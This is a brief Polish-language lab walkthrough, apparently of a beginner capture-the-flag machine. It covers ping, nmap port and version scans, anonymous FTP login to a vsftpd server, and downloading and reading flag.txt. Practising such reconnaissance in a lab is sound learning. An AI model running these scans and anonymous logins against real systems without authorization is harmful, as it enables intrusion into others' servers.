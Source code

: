 
## Ping do 10.129.164.54 — działa

```bash
ping 10.129.164.54
```
*(Ctrl+C przerwało)*

## Szybkie skanowanie portów na 10.129.164.54

```bash
nmap 10.129.164.54
```

#### 📡 Wynik skanu:

> **port 21/tcp otwarty (FTP)**
## Skanowanie wersji usług na 10.129.164.54

```bash
nmap -sV 10.129.164.54
```

#### 📡 Wynik skanu:

> FTP - vsftpd 3.0.3, OS: Unix

## Komenda do skanowania z opcją -A na porcie 21

```bash
nmap -A -p21 10.129.164.54
```

#### 📡 Wynik skanu:

> FTP anon logowanie dozwolone, plik flag.txt o rozmiarze 32 bajty widoczny.

## Połączenie z FTP na 10.129.164.54

```bash
ftp -p 10.129.164.54
```

```
Name (10.129.164.54:kali): anonymous
Password:
230 Login successful.
```

## Logowanie do FTP jako anonymous

## W FTP:

```bash
ls
get flag.txt
exit
```

## Sprawdzenie pliku flag.txt w katalogu lokalnym

```bash
ls
cat flag.txt
```

## Zrzut tmuxa do pliku

```bash
tmux capture-pane -pS -1000 > zapis.txt
```
